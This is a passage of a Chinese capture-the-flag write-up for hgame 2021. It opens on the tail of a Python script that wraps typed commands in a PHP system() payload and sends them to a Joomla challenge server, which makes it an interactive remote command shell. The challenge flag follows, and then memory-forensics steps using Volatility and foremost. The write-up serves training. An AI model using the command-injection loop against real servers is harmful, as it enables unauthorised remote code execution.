 ```python
    return r

while 1:
    payload = 'system(\'' + input('$') + '\');'
    r = get_url('http://0300ccc44c.joomla.r4u.top:6788/',build_payload(payload))
    print(r.content.decode()[r.content.decode().index('</html>')+8:r.content.decode().index('<b>Warning</b>:  assert():')-8])
```

运行程序然后直接输入命令即可

![image-20210226195518314](https://i.loli.net/2021/02/26/Zo8XKuwrDdV1cWI.png)



hgame{WelCoME~TO-ThIs_Re4Lw0RLD}



# MISC

## Akira之瞳-1

判断内存镜像的操作系统

```powershell
.\volatility_2.6_win64_standalone.exe -f .\important_work.raw imageinfo
```

![image-20210221012544307](https://i.loli.net/2021/02/21/Ac7F816GPaBEKMx.png)

列出进程列表

```powershell
.\volatility_2.6_win64_standalone.exe -f .\important_work.raw --profile=Win7SP1x64_23418 pslist
```

![image-20210221012728466](https://i.loli.net/2021/02/21/3DhdUqkaXBRrlcb.png)

![image-20210221013433598](https://i.loli.net/2021/02/21/NyIQubrmEwnOGpV.png)

发现可疑程序

导出内存

```powershell
.\volatility_2.6_win64_standalone.exe -f .\important_work.raw --profile=Win7SP1x64_23418 memdump -p 1092 --dump-dir=./
```



使用 foremost 分析内存数据

```
foremost 1092.dmp
```
